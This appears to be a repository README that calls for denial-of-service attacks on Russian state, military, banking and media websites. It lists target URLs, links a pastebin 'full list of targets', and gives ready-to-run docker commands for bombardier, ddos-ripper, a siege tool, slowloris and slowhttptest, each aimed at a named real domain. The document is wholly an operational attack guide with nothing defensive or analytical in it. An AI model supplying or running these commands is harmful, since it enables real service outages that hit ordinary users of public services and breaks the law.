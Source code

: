 # List of (some) public russian government and military services

https://www.gosuslugi.ru  
https://epp.genproc.gov.ru  
https://ach.gov.ru  
https://www.scrf.gov.ru  
https://mil.ru  
https://minpromtorg.gov.ru/  
https://favt.gov.ru/  
https://rkn.gov.ru/  
https://rg.ru/org/pravitelstvo/minoboroni/gru/  
http://www.fso.gov.ru/  
https://api.developer.sber.ru/product/SberbankID

# Propaganda

tvzvezda.ru  
echo.msk.ru  
rg.ru  
kp.ru

# Full list of targets

https://pastebin.com/JEuV9ftT

# Some examples to start with

```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
docker run -it --rm nitupkcuf/ddos-ripper:latest www.rt.com
```

# Awesome python siege engine

```
docker run --rm -it mack/battle-tools python3 -m siege_engine 300 tvzvezda.ru
```

# Awesome Slow DDoS tool

https://github.com/gkbrk/slowloris

Example command:  
```
docker run --rm -it aminvakil/slowloris [-h] [-u DOMAIN] [-s numberOfSockets]
```

# Another awesome similar to slowloris tool 

```
docker run --rm -it shekyan/slowhttptest:latest -c 1000 -X -g -o slow_read_stats -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u https://rbc.ru -p 3 
```
